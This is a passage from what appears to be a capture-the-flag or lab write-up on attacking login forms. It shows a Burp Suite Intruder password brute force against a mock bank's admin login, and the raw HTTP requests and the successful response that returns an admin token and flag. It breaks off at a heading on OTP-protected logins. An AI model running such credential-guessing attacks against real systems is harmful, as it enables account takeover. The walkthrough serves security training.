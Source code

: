 `burpsuite` > `Intruder` > `Payloads` = `Load: /root/Desktop/wordlists/100-common-passwords.txt` > `Start attack`

`HTTP Request`:
```http
POST /login HTTP/1.1
Host: 192.141.40.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secure-bank.com:5000/login
Content-Type: application/json
Content-Length: 52
Origin: http://secure-bank.com:5000
Connection: close

{"email":"admin@secbank.com","password":"§password§"}
```
`HTTP Request`:
```http
POST /login HTTP/1.1
Host: 192.141.40.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secure-bank.com:5000/login
Content-Type: application/json
Content-Length: 52
Origin: http://secure-bank.com:5000
Connection: close

{"email":"admin@secbank.com","password":"christmas"} 🔑
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 284
Access-Control-Allow-Origin: http://secure-bank.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 14:13:05 GMT

{"admin": true, "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzZWN1cmUtcG9ydGFsIiwiYWRtaW4iOnRydWUsImVtYWlsIjoiYWRtaW5Ac2VjYmFuay5jb20iLCJleHAiOjE3MzI3MTg1ODUsImlhdCI6MTczMjcxNjc4NX0.7KI_knayZjXzlfS2pivBWHYL6adMhhZfMsVduFbj3Oc", "flag": "08357d4a0acc2687422ba06c7d696758"}
```

### Attacking Login Forms with OTP Security

#### Lab Environment
